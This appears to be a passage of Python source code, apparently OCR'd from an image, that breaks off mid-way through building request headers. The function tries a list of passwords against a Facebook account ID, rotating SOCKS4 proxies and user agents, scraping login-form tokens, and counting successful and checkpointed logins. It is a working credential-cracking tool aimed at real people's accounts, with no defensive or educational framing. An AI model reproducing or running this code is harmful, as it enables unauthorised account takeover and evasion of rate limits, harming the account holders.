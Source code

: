 def metodh1(idf,pwv):
	yhn = '0'
	global loop,ok,cp
	prog.update(des,description=f'\r[deep_white]{(loop)}/{len(id)}[/] [green]OK[/]:[green]{(ok)} [/]=[yellow] CP[/]:[yellow]{yhn}')
	prog.advance(des)
	ua = random.choice(usrgent2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(proxsi)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host": "m.facebook.com","cache-control": "max-age=0","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","sec-ch-ua": '" Not A;Brand";v="99", "Chromium";v="104"',"sec-ch-ua-mobile": "?1","sec-fetch-site": "same-origin","sec-fetch-mode": "cors","sec-fetch-dest": "empty","sec-fetch-user": "?1","upgrade-insecure-requests": "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
			p = ses.get("https://m.facebook.com/login.php?skip_api_login=1&api_key=1239138353201716&kid_directed_site=0&app_id=1239138353201716&signed_next=1&next=https%3A%2F%2Ffree.facebook.com%2Fv8.0%2Fdialog%2Foauth%3Fresponse_type%3Dcode%252Cgranted_scopes%26client_id%3D1239138353201716%26redirect_uri%3Dhttps%253A%252F%252Fkachishop-d0c3a.firebaseapp.com%252F__%252Fauth%252Fhandler%26state%3DAMbdmDmDaplWH_DdoV_W4QQTmWmecz1GxWXAlj2cdr_Vf_0aKRi-oWe-Z3FTiIj8pa4JD342zNeLW91aHp12LY9dOYb8tOPKOtsEllaj3JYdF79-cf8Wr-OPLhAn7Zq1LeUfJWdCxX2mAPKVYOG0CChDNxiBnmVCUG3LGCJ3sCTSc1Eb5dZseFVZe2lUqc6Yzz92V58Ki3TvYM7HjC_421qwGmMHJNi0xIaeVA917YCkm8d-wMthO_lSm3eIQPryPnbreRYgONBzhtx692MYCYA3_6dPlkm70JVkIuHGHRiJ98KokSMQRhxjZJCAp_GbKVMDXvSWm0ZtdYR5CI4UZgrB%26scope%3Dpublic_profile%252Cemail%26display%3Dpopup%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D087a364c-3d69-45b4-a55b-047dae50317c%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fkachishop-d0c3a.firebaseapp.com%2F__%2Fauth%2Fhandler%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3DAMbdmDmDaplWH_DdoV_W4QQTmWmecz1GxWXAlj2cdr_Vf_0aKRi-oWe-Z3FTiIj8pa4JD342zNeLW91aHp12LY9dOYb8tOPKOtsEllaj3JYdF79-cf8Wr-OPLhAn7Zq1LeUfJWdCxX2mAPKVYOG0CChDNxiBnmVCUG3LGCJ3sCTSc1Eb5dZseFVZe2lUqc6Yzz92V58Ki3TvYM7HjC_421qwGmMHJNi0xIaeVA917YCkm8d-wMthO_lSm3eIQPryPnbreRYgONBzhtx692MYCYA3_6dPlkm70JVkIuHGHRiJ98KokSMQRhxjZJCAp_GbKVMDXvSWm0ZtdYR5CI4UZgrB%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr")
			dataa ={'lsd': re.search('name="lsd" value="(.*?)"',str(p.text)).group(1), 'jazoest': re.search('name="jazoest" value="(.*?)"',str(p.text)).group(1), 'm_ts': re.search('name="m_ts" value="(.*?)"',str(p.text)).group(1), 'li': re.search('name="li" value="(.*?)"',str(p.text)).group(1), 'try_number': '0', 'unrecognized_tries': '0', 'email': idf, 'pass': pw, 'prefill_contact_point': '', 'prefill_source': '', 'prefill_type': '', 'first_prefill_source': '', 'first_prefill_type': '', 'had_cp_prefilled': 'false', 'had_password_prefilled': 'false', 'is_smart_lock': 'false', 'bi_xrwh': re.search('name="bi_xrwh" value="(.*?)"',str(p.text)).group(1)}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={
			"Host": "m.facebook.com",
			"content-length": f"{len(str(dataa))}",
			"x-fb-lsd": re.search('name="lsd" value="(.*?)"',str(p.text)).group(1),
			"origin": "https://m.facebook.com",
			"content-type": "application/x-www-form-urlencoded",
			"user-agent": ua,
			"accept": "*/*",
			"x-requested-with": "com.microsoft.bing",
			"sec-ch-ua": '"Chromium";v="106", "Google Chrome";v="106", "Not;A=Brand";v="99"',
			"sec-ch-ua-platform": '"Android"',
			"sec-ch-ua-mobile": "?1",
			"sec-fetch-site": "same-origin",
			"sec-fetch-mode": "cors",
			"sec-fetch-dest": "empty",
			"sec-fetch-user": "?1",